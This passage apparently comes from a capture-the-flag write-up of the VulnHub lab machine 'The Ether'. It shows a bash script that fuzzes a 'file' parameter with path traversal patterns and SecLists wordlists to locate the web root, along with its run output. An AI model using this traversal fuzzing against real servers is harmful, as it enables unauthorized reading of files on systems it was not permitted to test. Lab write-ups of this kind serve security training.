 To that end, I wrote `fuzz.sh` in combination with the various wordlists from [SecLists][4]{: target='_blank'} to map out the **DocumentRoot** by exploiting the `file` parameter. For this to work, a unique known string in the file must exists.

```bash
# cat fuzz.sh
#!/bin/bash

HOST=192.168.198.130
PATTERN="$1"
KNOWN="$2"
WORDLIST="$3"

for word in $(cat "$WORDLIST"); do
    echo "[+] Trying ${PATTERN/FUZZ/$word}"
    if curl -s http://${HOST}/?file=${PATTERN/FUZZ/$word} | grep -E "$KNOWN" &>/dev/null; then
        echo
        echo "[!] Found: http://${HOST}/?file=${PATTERN/FUZZ/$word}"
        break;
    fi
done
```

Now, let's give `fuzz.sh` a shot.

```
# ./fuzz.sh "../FUZZ/about.php" "About The Ether" /usr/share/seclists/Discovery/Web_Content/common.txt
```
```
...
[+] Trying ../pub/about.php
[+] Trying ../public/about.php
[+] Trying ../public_ftp/about.php
[+] Trying ../public_html/about.php

[!] Found: http://192.168.198.130/?file=../public_html/about.php
```

Navigating to `/?file=../public_html/about.php` gave me the confidence the script is working.


[1]: https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
[2]: https://www.vulnhub.com/
[3]: https://httpd.apache.org/docs/2.4/mod/core.html#documentroot
[4]: https://github.com/danielmiessler/SecLists